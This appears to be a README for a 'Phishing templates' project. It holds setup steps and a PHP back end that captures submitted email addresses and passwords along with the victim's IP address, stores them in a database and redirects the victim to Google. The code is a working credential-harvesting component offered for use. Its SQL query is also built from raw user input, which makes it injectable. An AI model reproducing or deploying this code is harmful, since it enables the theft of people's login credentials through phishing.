 Phishing templates.

Db connection:
Create a database, modify the following text in php and add it to the files.

PHP connection:
"""
<?php
$servername = "localhost";
$database = "X";
$username = "X";
$password = "X";
// creamos conexion
  $conn = mysqli_connect($servername, $username, $password, $database);
//si estan todos los campos rellenos los insertamos en la base de datos
  if( isset($_GET["email"]) && isset($_GET["password"]) && isset($_SERVER["REQUEST_METHOD"]) ){
$pass = $_GET["password"];
$mail = $_GET["email"];
 if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ipAddress = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ipAddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
        $ipAddress = $_SERVER['REMOTE_ADDR'];
    }

  $insert = "insert into datos values('$mail', '$pass', '(WEB)', '$ipAddress')";
//realizamos consulta para insertar los datos
  $return = mysqli_query( $conn, $insert);
  print_r( ( $return));
 // echo " : Registro correcto";
        header("Location: https://www.google.es");
        exit();
}
mysqli_close( $conn);
?>


"""
